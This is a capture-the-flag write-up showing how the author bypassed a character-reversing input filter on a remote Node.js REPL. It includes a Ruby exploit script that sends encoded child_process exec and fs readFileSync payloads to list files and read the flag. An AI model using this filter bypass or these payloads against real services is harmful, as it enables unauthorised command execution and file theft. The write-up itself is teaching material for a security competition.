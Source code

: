 #Sh-ock
###(exp90, solved by 105)


>Description: This is some kind of weird thing. I am sh-ocked.

>Service: 188.166.133.53:12589

First thing is first, let's see what we are working with...

`telnet 188.166.133.53 12589`

We are greeted with a small prompt where we can input data, let's try some stuff:

```
$test
[ReferenceError: te is not defined]
```

That's weird, what kind of error is this? A quick Google search on the error provides information that this is likely a JavaScript error. So, it looks like we are working with some kind of JavaScript shell, and it's likely Node.

We input `test` and got `te` back... So, it reversed our input and grabbed ever other character... Interesting....

Let's try something else:

```
$01234567890123456789012345
[ReferenceError: 284062 is not defined]
```

Hrmmmm...
```
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5
    ^       ^       ^       ^       ^       ^
```

Instead of every other character, now it's every third character...

After some vigorous attempts at figuring out how the filter was working, it was found that if the input exceeds 50 characters, it will take every 6th character. This means that as long as our input is greater than or equal to 9 bytes in length, we can just reverse our input and repeat each character 6 times. If the input is less than 9 characters, we could simply add a comment section to fulfill those bytes.

Okay, so now that we have figured out the filter, let's throw some JavaScript related queries at it (Some code pastes will be shortened for the sake of this writeup's length)

Let's run the command `this` and see how it responds. We can accomplish this by padding our extra 5 bytes with a JavaScript comment, reverse it and repeat each character 6 times. This will make our input 54 bytes long, allowing it to bypass the filter properly.

`//////////////////////////////ssssssiiiiiihhhhhhtttttt`


```
$//////////////////////////////ssssssiiiiiihhhhhhtttttt
Interface {
  _sawReturn: false,
  domain: null,
  _events:
   { close: { [Function: g] listener: [Function] },
     line: [Function] },
  _eventsCount: 2,
  _maxListeners: undefined,
  output:
   Socket {
     _connecting: false,
     _hadError: false,
     _handle:
      TCP {
        _externalStream: {},
```

Okay, this is interesting. It appears to have dropped us an object list of it's properties!

Let's try and execute `process` now

```
$////////////sssssssssssseeeeeeccccccoooooorrrrrrpppppp
process {
  title: '/opt/nodejs/bin/node',
  version: 'v4.3.0',
  moduleLoadList:
   [ 'Binding contextify',
     'Binding natives',
     'NativeModule events',
     'NativeModule buffer',
     'Binding buffer',
     'NativeModule internal/util',
     'Binding util',
     'NativeModule timers',
     'Binding timer_wrap',
     'NativeModule _linklist',
     'NativeModule assert',
     'NativeModule util',
     'Binding uv',
     'NativeModule path',
     'NativeModule module',
     'NativeModule internal/module',
     'NativeModule vm',
     'NativeModule fs',
     'Binding fs',
     'NativeModule constants',
     'Binding constants',
     'NativeModule stream',
     'NativeModule _stream_readable',
     'NativeModule _stream_writable',
     'NativeModule _stream_duplex',
     'NativeModule _stream_transform',
     'NativeModule _stream_passthrough',
     'Binding fs_event_wrap',
     'NativeModule readline',
     'Binding tty_wrap',
     'NativeModule net',
     'Binding cares_wrap',
     'Binding tcp_wrap',
     'Binding pipe_wrap',
     'Binding stream_wrap',
     'NativeModule string_decoder',
     'NativeModule console' ],
  versions:
   { http_parser: '2.5.1',
     node: '4.3.0',
     v8: '4.5.103.35',
     uv: '1.8.0',
     zlib: '1.2.8',
     ares: '1.10.1-DEV',
     icu: '56.1',
     modules: '46',
     openssl: '1.0.2f' },
  arch: 'x64',
  platform: 'linux',
  release:
   { name: 'node',
     lts: 'Argon',
     sourceUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0.tar.gz',
     headersUrl: 'https://nodejs.org/download/release/v4.3.0/node-v4.3.0-headers.tar.gz' },
  argv: [ '/opt/node-v4.3.0-linux-x64/bin/node', '/home/exp90/task.js' ],
  execArgv: [],
  env:
   { OLDPWD: '/etc/service/exp90',
     PATH: '/command:/usr/local/bin:/usr/local/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/X11R6/bin',
```

Awesome!

At this point, I'm tired of reversing my input and manually repeating characters, so I made a script in Ruby. It will connect and execute some initial commands, and then give me a prompt to input whatever else I would like to run in the same session.

(This code can be found in exp90.rb)
```
#!/usr/bin/ruby
require 'socket'
HOST      = '188.166.133.53'
PORT      = 12589

@sock = TCPSocket.new(HOST, PORT)
@initial_payloads = ["this.sys=require('sys')", "this.ex=require('child_process').exec", 'this.ex("ls -la", function(error, stdout, stderr) { console.log(stdout); })']

def send_data(stuff)
  puts "PLOAD: #{stuff}"
  @sock.write("#{stuff.to_s}\n")
end

def generate_payload(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
  @initial_payloads.shift
end

def custom_input(input)
  pl = ''
  reverse = input.reverse
  reverse.split('').each do |c|
    pl += (c * 6)
  end
  send_data(pl)
end

loop do
  @data = @sock.recv(5000)
  puts @data unless @data.empty?
  if @initial_payloads.size >= 1
    generate_payload(@initial_payloads[0])
  else
    print '> '
    i = gets.chomp
    custom_input(i)
  end
end
```

As you can see the initial payloads will create a variable within the object called sys, which will require system and the next command following that will try and dump the contents of the directory!

Upon running, we get the directory dump!!!

```
drwxr-x---  2 exp90 exp90 4096 Feb 19 14:26 .
drwxr-xr-x 14 root  root  4096 Feb 11 12:19 ..
-rw-------  1 exp90 exp90    6 Feb 19 14:26 .bash_history
-rw-r--r--  1 exp90 exp90  220 Nov 13  2014 .bash_logout
-rw-r--r--  1 exp90 exp90 3515 Nov 13  2014 .bashrc
-rw-r--r--  1 exp90 exp90  675 Nov 13  2014 .profile
-rw-r--r--  1 root  exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root  exp90 1011 Feb 11 18:23 task.js
```

The final thing to do is to read the contents of the `flag.txt` file.
We need to require the `fs` module and store it in a variable associated with the object. We can then use this to read from files.

Running it in le script

```
> this.f=require('fs')
> this.f.readFileSync('flag.txt','utf8')
```

Desired output? I think so!

```
IW{Shocked-for-nothing!
>
```
